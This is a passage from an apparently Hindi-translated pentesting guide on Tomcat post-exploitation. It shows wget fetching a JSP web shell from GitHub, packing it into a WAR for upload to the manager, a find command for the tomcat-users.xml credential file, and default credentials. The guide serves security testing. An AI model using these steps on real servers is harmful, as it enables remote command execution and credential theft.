 ### मैनुअल विधि 2

एक JSP वेब शेल प्राप्त करें जैसे [यह](https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp) और एक WAR फ़ाइल बनाएं:
```bash
wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
zip -r backup.war cmd.jsp
# When this file is uploaded to the manager GUI, the /backup application will be added to the table.
# Go to: http://tomcat-site.local:8180/backup/cmd.jsp
```
## POST

Tomcat क्रेडेंशियल्स फ़ाइल का नाम `tomcat-users.xml` है और यह फ़ाइल टॉमकैट के अंदर उपयोगकर्ता की भूमिका को दर्शाती है।
```bash
find / -name tomcat-users.xml 2>/dev/null
```
उदाहरण:
```xml
[...]
<!--
By default, no user is included in the "manager-gui" role required
to operate the "/manager/html" web application.  If you wish to use this app,
you must define such a user - the username and password are arbitrary.

Built-in Tomcat manager roles:
- manager-gui    - allows access to the HTML GUI and the status pages
- manager-script - allows access to the HTTP API and the status pages
- manager-jmx    - allows access to the JMX proxy and the status pages
- manager-status - allows access to the status pages only
-->
[...]
<role rolename="manager-gui" />
<user username="tomcat" password="tomcat" roles="manager-gui" />
<role rolename="admin-gui" />
<user username="admin" password="admin" roles="manager-gui,admin-gui" />
```
## अन्य टॉमकैट स्कैनिंग टूल

* [https://github.com/p0dalirius/ApacheTomcatScanner](https://github.com/p0dalirius/ApacheTomcatScanner)

## संदर्भ

* [https://github.com/simran-sankhala/Pentest-Tomcat](https://github.com/simran-sankhala/Pentest-Tomcat)
* [https://hackertarget.com/sample/nexpose-metasploitable-test.pdf](https://hackertarget.com/sample/nexpose-metasploitable-test.pdf)

{% hint style="success" %}